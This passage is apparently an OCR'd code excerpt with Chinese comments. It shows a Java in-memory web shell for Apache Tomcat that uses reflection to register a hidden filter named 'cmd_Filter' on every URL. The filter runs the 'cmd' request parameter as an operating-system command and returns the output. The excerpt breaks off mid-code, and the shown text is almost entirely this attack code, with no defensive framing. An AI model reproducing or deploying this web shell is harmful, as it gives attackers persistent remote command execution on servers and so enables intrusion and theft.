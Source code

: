 ```
 stdctx.setAccessible(true);  
 StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
  
  
  
 String FilterName = "cmd_Filter";  
 Configs = standardContext.getClass().getDeclaredField("filterConfigs");  
 Configs.setAccessible(true);  
 filterConfigs = (Map) Configs.get(standardContext);  
  
 if (filterConfigs.get(FilterName) == null){  
                Filter filter = new Filter() {  
  
                    @Override  
 public void init(FilterConfig filterConfig) throws ServletException {  
  
                    }  
  
                    @Override  
 public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {  
                        HttpServletRequest req = (HttpServletRequest) servletRequest;  
 if (req.getParameter("cmd") != null){  
  
                            InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();  
//  
 Scanner s = new Scanner(in).useDelimiter("\\A");  
 String output = s.hasNext() ? s.next() : "";  
 servletResponse.getWriter().write(output);  
  
 return; }  
                        filterChain.doFilter(servletRequest,servletResponse);  
 }  
  
                    @Override  
 public void destroy() {  
  
                    }  
                };  
 //反射获取FilterDef，设置filter名等参数后，调用addFilterDef将FilterDef添加  
 Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");  
 Constructor declaredConstructors = FilterDef.getDeclaredConstructor();  
 FilterDef o = (FilterDef)declaredConstructors.newInstance();  
 o.setFilter(filter);  
 o.setFilterName(FilterName);  
 o.setFilterClass(filter.getClass().getName());  
 standardContext.addFilterDef(o);  
 //反射获取FilterMap并且设置拦截路径，并调用addFilterMapBefore将FilterMap添加进去  
 Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");  
 Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();  
 org.apache.tomcat.util.descriptor.web.FilterMap o1 = (FilterMap)declaredConstructor.newInstance();  
  
 o1.addURLPattern("/*");  
 o1.setFilterName(FilterName);  
 o1.setDispatcher(DispatcherType.REQUEST.name());  
 standardContext.addFilterMapBefore(o1);  
  
 //反射获取ApplicationFilterConfig，构造方法将 FilterDef传入后获取filterConfig后，将设置好的filterConfig添加进去  
 Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");  
```